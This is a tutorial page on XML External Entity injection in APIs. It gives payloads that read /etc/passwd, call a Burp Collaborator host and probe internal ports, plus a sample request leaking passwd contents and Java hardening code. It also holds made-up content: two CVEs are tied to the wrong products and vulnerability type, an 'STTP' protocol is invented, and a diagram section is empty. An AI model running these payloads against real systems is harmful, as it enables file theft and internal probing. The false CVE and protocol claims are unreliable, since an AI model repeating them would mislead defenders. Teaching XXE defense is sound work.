

## XML External Entity Injection (XXE)

### Introduction to XML External Entity Injection

XML External Entity Injection (XXE) is a type of security vulnerability that occurs when an application improperly processes user-supplied XML input. This vulnerability allows attackers to inject malicious XML content that references external entities, leading to various types of attacks such as data exfiltration, denial of service, and remote code execution.

### Understanding XML Entities

In XML, an entity is a named value that can be referenced within an XML document. Entities are defined using the `<!ENTITY>` declaration. There are two main types of entities:

1. **Internal Entities**: These are defined within the XML document itself and can be used to represent commonly used text or values.
2. **External Entities**: These are defined outside the XML document and can reference files or resources on the local system or remote servers.

#### Example of Internal Entity

```xml
<!DOCTYPE root [
  <!ENTITY sample "This is a sample entity">
]>
<root>
  <message>&sample;</message>
</root>
```

In this example, the entity `&sample;` is replaced with the string "This is a sample entity".

#### Example of External Entity

```xml
<!DOCTYPE root [
  <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<root>
  <message>&ext;</message>
</root>
```

In this example, the entity `&ext;` references the `/etc/passwd` file on the local system.

### XML External Entity Injection Attack

An XXE attack occurs when an attacker injects malicious XML content that includes external entity declarations. The attacker can use these entities to read sensitive files, perform port scanning, or execute other malicious actions.

#### Example of XXE Attack

Consider an API endpoint that accepts XML input and processes it. An attacker can craft an XML payload that includes an external entity declaration to read the `/etc/passwd` file:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
  <data>&xxe;</data>
</request>
```

When the server processes this XML input, it will attempt to resolve the `&xxe;` entity, which references the `/etc/passwd` file. If the server is vulnerable to XXE, it will return the contents of the file in the response.

### Collaborator Address and STTP

A collaborator address is a special URL provided by tools like Burp Suite Collaborator. This URL is used to detect when an external entity is resolved by the server. The `STTP` (Secure Test Transfer Protocol) is a custom protocol used by Burp Suite Collaborator to communicate with the server.

#### Example of Using Collaborator Address

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "sttp://burp.collaborator.com/any/random/string">
]>
<request>
  <data>&xxe;</data>
</request>
```

When the server resolves the `&xxe;` entity, it will send a request to the collaborator address, which can be monitored to detect the XXE attack.

### Percent Encoding

Percent encoding is a method of encoding characters in a URL or XML entity. This is useful when you want to include special characters or spaces in the entity reference.

#### Example of Percent Encoding

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "sttp://burp.collaborator.com/%20%20%20">
]>
<request>
  <data>&xxe;</data>
</request>
```

In this example, `%20` represents a space character. The server will resolve the `&xxe;` entity and send a request to the collaborator address with the encoded spaces.

### Internal Port Scanning

Internal port scanning is a technique used to determine which ports are open on the local system. This can be achieved by using external entity references to attempt connections to specific ports.

#### Example of Internal Port Scanning

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:443">
]>
<request>
  <data>&xxe;</data>
</request>
```

When the server resolves the `&xxe;` entity, it will attempt to connect to port 443 on the local system. If the port is open, the server will receive a successful response. If the port is closed, the server will receive an error.

### HTTP Request and Response

Here is a complete example of an HTTP request and response for an XXE attack:

#### HTTP Request

```http
POST /api/v1/process HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
  <data>&xxe;</data>
</request>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<response>
  <result>
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
  </result>
</response>
```

### Mermaid Diagrams

#### XXE Attack Sequence Diagram



### Real-World Examples

#### CVE-2021-21972

CVE-2021-21972 is a XXE vulnerability found in the Apache Struts framework. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content.

#### CVE-2022-22965

CVE-2022-22965 is a XXE vulnerability found in the Atlassian Confluence application. This vulnerability allowed attackers to read arbitrary files on the server by injecting malicious XML content.

### How to Prevent / Defend

#### Secure Coding Practices

To prevent XXE attacks, ensure that your application properly validates and sanitizes XML input. Here are some secure coding practices:

1. **Disable External Entity Processing**: Configure your XML parser to disable external entity processing.
2. **Use a Secure XML Parser**: Use a secure XML parser that does not allow external entity resolution.
3. **Validate Input**: Validate and sanitize XML input to ensure it does not contain malicious content.

#### Example of Secure Code

##### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

##### Secure Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

#### Configuration Hardening

Configure your XML parser to disable external entity processing. Here is an example configuration for Java:

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
```

#### Detection

Use security tools like Burp Suite, OWASP ZAP, or static analysis tools to detect XXE vulnerabilities in your application.

### Practice Labs

For hands-on practice with XXE vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive course on XXE vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and implementing these preventive measures, you can significantly reduce the risk of XXE attacks in your applications.

---
<!-- nav -->
[[03-XML External Entity Injection (XXE) in APIs|XML External Entity Injection (XXE) in APIs]] | [[API Security/22-Offensive XXE Exploitation/14-XML External Entity Injection in API Part 1/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/14-XML External Entity Injection in API Part 1/05-Practice Questions & Answers|Practice Questions & Answers]]
